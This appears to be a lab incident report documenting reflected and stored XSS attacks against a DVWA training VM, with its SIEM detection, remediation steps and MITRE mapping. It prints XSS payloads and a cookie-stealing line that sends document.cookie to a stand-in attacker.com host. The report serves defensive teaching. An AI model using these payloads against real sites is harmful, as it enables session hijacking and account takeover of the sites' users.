





# Incident Report: SOC-2026-004 - Cross-Site Scripting (XSS)

| Field | Detail |
| --- | --- |
| Incident ID | SOC-2026-004 |
| Classification | Injection / Cross-Site Scripting |
| Severity | High |
| CVSS v3.1 Score | 8.8 - High |
| CVSS Vector | AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:N |
| Status | Contained |
| Date Detected | June 10, 2026 |
| Date Contained | June 10, 2026 |
| Author | Solomon Lee |
| Last Updated | June 10, 2026 |

---

## 1. Executive Summary

On June 10, 2026, Cross-Site Scripting (XSS) attacks were executed against the DVWA web application (10.0.1.6) targeting both the Reflected XSS and Stored XSS modules. Four attack stages were executed demonstrating the full range of XSS exploitation: basic JavaScript execution, session cookie theft, HTML injection, and persistent stored XSS that executes for every subsequent visitor to the affected page.

XSS vulnerabilities allow attackers to inject malicious scripts into web pages viewed by other users. Unlike SQL injection which targets the database, XSS targets the users of the application — stealing their session tokens, redirecting them to phishing pages, or silently executing attacker-controlled code in their browsers. All attack requests were logged in the Apache access log and indexed in Elasticsearch. This attack maps to OWASP A03 Injection and is present in a significant portion of web applications worldwide.

---

## 2. Severity Rating

| Metric | Rating | Justification |
| --- | --- | --- |
| CVSS v3.1 Base Score | 8.8 - High | Script execution in victim browser with session access |
| Attack Vector | Network | Attack delivered via HTTP |
| Attack Complexity | Low | Standard XSS payloads, no special conditions |
| Privileges Required | None | No authentication required for reflected XSS |
| User Interaction | Required | Victim must visit the page containing the payload |
| Scope | Changed | Attacker code runs in victim browser context |
| Confidentiality Impact | High | Session cookies and credentials can be stolen |
| Integrity Impact | High | Page content can be modified, fake forms injected |
| Availability Impact | None | Application availability not directly affected |

Stored XSS scores higher than Reflected XSS because it does not require tricking a victim into clicking a link — the payload persists in the database and executes automatically for every user who visits the affected page.

---

## 3. Affected Systems

| System | IP Address | Role | Impact |
| --- | --- | --- | --- |
| dvwa-vm | 10.0.1.6 | Target - DVWA web application | Exploited - JavaScript executed in browser |
| kali-vm | 10.0.1.7 | Attacker - Kali Linux | Source of attack |
| Browser | Attacker workstation | Client rendering pages | JavaScript executed in browser context |
| jump-box | 10.0.1.4 | Bastion host | No impact |
| elk-vm | 10.0.1.5 | SIEM - ELK Stack | Detection platform - no impact |

---

## 4. Incident Details

### Reflected XSS vs Stored XSS

| Type | How It Works | Persistence | Who Is Affected |
| --- | --- | --- | --- |
| Reflected XSS | Payload in URL or form field - reflected back in response | None - only affects current request | Only the user who submits the payload |
| Stored XSS | Payload saved to database - served to all visitors | Permanent until removed | Every user who visits the affected page |

### Vulnerability Description

XSS occurs when user-supplied input is rendered in an HTML page without proper encoding or sanitization. The browser interprets the injected content as legitimate code and executes it. The application trusts user input it should not trust.

The vulnerable DVWA code renders user input directly into the HTML response:

```php
// Vulnerable code - directly echoes unsanitized input
echo '<pre>Hello ' . $_GET['name'] . '</pre>';

// Secure code - encodes special characters before rendering
echo '<pre>Hello ' . htmlspecialchars($_GET['name'], ENT_QUOTES) . '</pre>';
```

The `htmlspecialchars` function converts `<script>` to `&lt;script&gt;` which the browser renders as text rather than executing as code.

---

## 5. Timeline (UTC)

| Time (UTC) | Event |
| --- | --- |
| 20:00:00 | Attacker navigates to DVWA XSS (Reflected) module |
| 20:00:10 | Stage 1 - Basic alert payload submitted - JavaScript alert fires |
| 20:00:30 | Stage 2 - Cookie theft payload submitted - session cookie displayed |
| 20:00:50 | Stage 3 - HTML injection payload submitted - page content modified |
| 20:01:10 | Attacker navigates to DVWA XSS (Stored) module |
| 20:01:20 | Stage 4 - Stored XSS payload submitted to guestbook |
| 20:01:20 | Payload saved to database - will execute for all future visitors |
| 20:01:25 | All HTTP requests logged in Apache access.log |
| 20:01:30 | Filebeat ships events to Elasticsearch |
| 20:02:00 | All attack events visible in Kibana Discover |

---

## 6. Attack Execution and Evidence

### Stage 1 - Basic JavaScript Execution

Submitted to the What's your name input field:

```
<script>alert('XSS')</script>
```

The application returned the script tag unsanitized in the HTML response. The browser parsed and executed the JavaScript, displaying an alert popup. This confirms arbitrary JavaScript execution is possible.



### Stage 2 - Session Cookie Theft

```
<script>alert(document.cookie)</script>
```

`document.cookie` is a JavaScript property that returns all cookies for the current domain. The alert displayed the active session cookie value. In a real attack this value would be sent to an attacker-controlled server using an HTTP request:

```javascript
<script>
new Image().src = "http://attacker.com/steal?cookie=" + document.cookie;
</script>
```

With the session cookie the attacker can impersonate the victim in the application without knowing their password — a technique called session hijacking.



### Stage 3 - HTML Injection

```
<h1 style="color:red">Hacked by Solomon</h1>
```

This demonstrates that injection is not limited to JavaScript. Any HTML can be injected including forms, images, and links. A real attacker would inject a fake login form that submits credentials to an attacker-controlled server, appearing identical to the legitimate login page.



### Stage 4 - Stored XSS

Submitted to the XSS (Stored) guestbook:

```
Name:    Attacker
Message: <script>alert('Stored XSS')</script>
```

The input length restriction was bypassed by modifying the `maxlength` attribute of the input field using browser developer tools. The payload was saved to the DVWA database. Every subsequent user who loads the guestbook page will have this script execute automatically in their browser without any interaction.



---

## 7. Detection and Evidence

### SIEM Evidence - Kibana Discover

XSS payloads transmitted via HTTP GET and POST parameters were logged by Apache and shipped to Elasticsearch by Filebeat:

```
message: "script" AND host.name: "dvwa-vm"
```



### Detection Limitations

The XSS payloads are visible in Apache logs and searchable in Kibana after the fact. However the current SIEM has no automated detection rule for XSS patterns. The script tags appear URL-encoded in the Apache logs as `%3Cscript%3E` which requires specific pattern matching to detect.

A production WAF with OWASP ModSecurity Core Rule Set would detect and block these payloads in real time before they reach the application.

---

## 8. Impact Assessment

| Category | Rating | Detail |
| --- | --- | --- |
| Confidentiality | High | Session cookies exposed - account takeover possible |
| Integrity | High | Page content modified - fake forms can be injected |
| Availability | None | Application availability not affected |
| Data Compromised | Session tokens | Active session cookie values exposed |
| Records Affected | All guestbook visitors | Stored XSS affects every subsequent visitor |
| Financial Loss | Significant in production | Account takeover leads to fraud and data breach |
| Regulatory Impact | Severe in production | Session hijacking constitutes unauthorized access |

### Real-World Attack Scenario

In a production environment a stored XSS attack against a banking or e-commerce application would allow an attacker to:

1. Inject a keylogger script that captures every keystroke including passwords and credit card numbers
2. Silently redirect users to a phishing page after they authenticate
3. Steal session tokens from thousands of users visiting the infected page
4. Perform actions on behalf of authenticated users such as transferring funds or changing account settings

---

## 9. Operational Status

| Phase | Time (UTC) | Status |
| --- | --- | --- |
| Attack begins | 20:00:00 | Services fully operational |
| Stored payload saved to database | 20:01:20 | Services fully operational |
| All events in SIEM | 20:02:00 | Services fully operational |
| Incident closed | June 10, 2026 20:30:00 UTC | Resolved |

No services were disrupted. The stored XSS payload was removed from the DVWA database by resetting the application via the Setup page after the simulation was complete.

---

## 10. Indicators of Compromise (IOCs)

| Type | Value | Context |
| --- | --- | --- |
| Source IP | 10.0.1.7 | Kali attacker VM |
| Target IP | 10.0.1.6 | DVWA target VM |
| Target Port | 80/TCP | HTTP web application |
| Target URL (Reflected) | `/vulnerabilities/xss_r/` | Reflected XSS endpoint |
| Target URL (Stored) | `/vulnerabilities/xss_s/` | Stored XSS endpoint |
| Payload Pattern | `<script>` | JavaScript injection signature |
| Payload Pattern | `document.cookie` | Session theft attempt |
| Log Pattern | `xss` in Apache access.log URL | XSS module access |
| KQL Query | `message: "script" AND host.name: "dvwa-vm"` | Kibana detection |

---

## 11. Root Cause Analysis

| Type | Detail |
| --- | --- |
| Primary Cause | User input rendered directly in HTML response without encoding or sanitization |
| Secondary Cause | No Content Security Policy header to restrict script execution sources |
| Contributing Factor | Session cookies lack HttpOnly flag - accessible to JavaScript |
| Contributing Factor | No Web Application Firewall to detect and block XSS payloads |
| Contributing Factor | Input length restrictions enforced client-side only - easily bypassed |

### Key Distinction

Client-side validation such as the `maxlength` attribute on input fields can always be bypassed using browser developer tools. Security controls must be enforced server-side. The maxlength bypass demonstrated in Stage 4 illustrates this fundamental principle.

---

## 12. Containment and Eradication

| Action | Method | Time (UTC) | Status |
| --- | --- | --- | --- |
| Attack requests logged in SIEM | Apache logs via Filebeat | 20:01:30 | Complete |
| Stored XSS payload removed | DVWA database reset via Setup page | 20:30:00 | Complete |
| All events indexed in Elasticsearch | Logstash pipeline | 20:02:00 | Complete |
| Findings documented | This incident report | June 10, 2026 | Complete |

---

## 13. Recovery

In a production environment recovery would require:

- Immediate invalidation of all active sessions - force all users to re-authenticate
- Database cleanup to remove all stored XSS payloads
- Review of all pages where user-supplied content is rendered
- Notification of affected users whose session tokens may have been compromised
- Security audit of all input fields across the entire application

In this lab environment the DVWA database was reset via the Setup page removing the stored payload.

---

## 14. Remediation

### Critical - Fix Immediately in Production

- Encode all user-supplied output using `htmlspecialchars()` with ENT_QUOTES before rendering in HTML
- Set HttpOnly and Secure flags on all session cookies to prevent JavaScript access
- Implement Content Security Policy header restricting script execution to trusted sources only

### High - Implement Within One Week

- Deploy Web Application Firewall with OWASP ModSecurity Core Rule Set
- Move all input validation server-side - never rely on client-side restrictions alone
- Implement a strict Content Security Policy that blocks inline scripts entirely

### Medium - Implement Within One Month

- Add Kibana detection rule for XSS signatures in URL-encoded Apache log entries
- Conduct full application code review for all input rendering points
- Implement automated security scanning in the development pipeline

---

## 15. Lessons Learned

### What Worked Well

- Apache log pipeline captured XSS payloads in URL parameters and POST body references
- Stored XSS payload was clearly visible in the database and removable via application reset
- Both reflected and stored XSS variants were successfully demonstrated and documented

### Detection Gaps Identified

- No automated SIEM alert fires for XSS patterns in web requests
- URL-encoded payloads (`%3Cscript%3E`) require specific decoding-aware detection rules
- Session cookie theft leaves no server-side log trace - the cookie is read client-side only

### Key Security Principle Demonstrated

Client-side security controls are not security controls. The `maxlength` attribute bypass in Stage 4 illustrates that any restriction enforced only in the browser can be trivially circumvented. All security validation must be enforced server-side regardless of what client-side controls exist.

---

## 16. MITRE ATT&CK Mapping

| Tactic | Technique | Sub-technique | ID | Detected |
| --- | --- | --- | --- | --- |
| Initial Access | Exploit Public-Facing Application | | T1190 | Partial - logged, no alert |
| Credential Access | Steal Web Session Cookie | | T1539 | Partial - logged, no alert |
| Execution | Command and Scripting Interpreter | JavaScript | T1059.007 | Partial - logged, no alert |
| Persistence | Server Software Component | Web Shell | T1505.003 | Partial - stored payload logged |
| Collection | Input Capture | Web Portal Capture | T1056.003 | No automated detection |

---

## Appendix - Detection Pipeline Reference

```
dvwa-vm (/var/log/dvwa-apache/access.log)
    |
    | Apache logs XSS payloads URL-encoded in request parameters
    | Reflected: GET /vulnerabilities/xss_r/?name=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
    | Stored:    POST /vulnerabilities/xss_s/ with body containing script tag
    |
    | Filebeat 8.11.0
    |
elk-vm Logstash :5044
    |
    | Grok filter - parses Apache Combined Log Format
    |
Elasticsearch (filebeat-8.11.0-2026.06.10)
    |
    +-- Kibana Discover
            Query: message: "script" AND host.name: "dvwa-vm"
            URL-encoded payloads visible in request URI field
            POST body content may require additional Logstash parsing
```
